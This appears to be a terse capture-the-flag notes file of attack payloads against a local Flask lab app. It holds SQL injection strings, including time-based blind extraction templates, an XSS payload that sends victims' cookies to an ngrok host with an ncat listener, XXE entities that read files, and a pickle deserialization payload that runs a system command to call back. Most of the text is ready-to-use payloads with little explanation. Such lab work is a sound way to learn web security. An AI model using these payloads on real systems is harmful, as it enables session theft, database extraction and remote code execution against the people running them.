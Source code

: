 Flask
SQL
----------
' or 1=1; -- 

SQL Timing Based
--------------
https://www.youtube.com/watch?v=DYLDG_2Vs3E
https://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet
"' or ((SELECT hex(substr(table_name,{},1)) FROM information_schema.tables limit 1 offset 0)=hex('{}') and 1=1-SLEEP(2)) -- ".format(len(known_data)+1, x)
"' or ((SELECT hex(substr(column_name,{},1)) FROM information_schema.columns where table_name = 'supersecrettable' limit 1 offset 0)=hex('{}') and 1=1-SLEEP(2)) -- "
"user_name": "' or ((SELECT hex(substr(flag,{},1)) FROM supersecrettable limit 1 offset 0)=hex('{}') and 1=1-SLEEP(2)) -- "

NoSQL Blind injection
---------------------
https://www.youtube.com/watch?v=7kmttmmlygc
https://cloud.mongodb.com/v2/601b09a6a1838475f9393a92#metrics/replicaSet/622b90aef64b734b93ba453d/explorer/CTF/users/find
Refer to script

XSS
---------
ncat -klnvp 9000
ngrok http 9000
<script>document.write('<img src="http://019b-2406-3003-2077-4ea9-e183-ea0c-8d0-92a2.ngrok.io?cookie='+btoa(document.cookie)+'" />');</script>
curl -H "Cookie: token=8abae5d8bc89622b6bf5a76c948312f2" http://127.0.0.1:5000/XSS/admin

XSS with Content Security Policy (Low)
---------
<iframe src="http://localhost/CTF/attacker/base.html"></iframe>

XSS with Content-Security-Policy (High)
-----------------
<meta http-equiv="refresh" content="1; url=http://localhost:5000/XSS3/flag">


XXE injection
------------------------
https://www.youtube.com/watch?v=kiGoOuuXWFI

<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY example "Doe"> ]>
 <food>
    <name>Tonkatsu &example;</name> 
    <toppings>Add Ajitama</toppings> 
    <optional>Add Beef</optional></food>

<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=http://localhost:5000/XXE/flag" >
]>
<foo>
    <name>Tonkatsu &xxe;</name> 
    <toppings>Add Ajitama</toppings> 
    <optional>Add Beef</optional></foo>


XML Blind injection
----------------------------
https://www.youtube.com/watch?v=ySJwlMsFbco
Refer to script


Pickle Insecure Deserialization
---------------------------
Refer to script
ncat -klnvp 9000
curl -d "function=decode&input=b'\x80\x04\x95+\x00\x00\x00\x00\x00\x00\x00\x8c\x02nt\x94\x8c\x06system\x94\x93\x94\x8c\x13ncat 127.0.0.1 9000\x94\x85\x94R\x94.'" http://127.0.0.1:5000/INSEC/





